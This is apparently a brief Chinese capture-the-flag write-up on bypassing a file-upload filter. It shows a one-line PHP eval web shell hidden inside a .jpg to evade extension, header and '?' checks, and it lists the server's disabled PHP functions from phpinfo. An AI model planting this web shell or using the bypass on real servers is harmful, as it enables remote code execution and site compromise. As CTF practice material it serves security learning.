





后缀不能有ph 有文件头检验

问号被过滤



```
<script language="php">eval($_POST['x']);</script>
```

上传成功：/var/www/html/upload/1da6a81419aa2f88fe5a23317e8c0e5d/1.jpg succesfully uploaded!



上传成功



phpinfo里面的disable_functions()函数能看见禁用了哪些函数：

```php
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld	
```




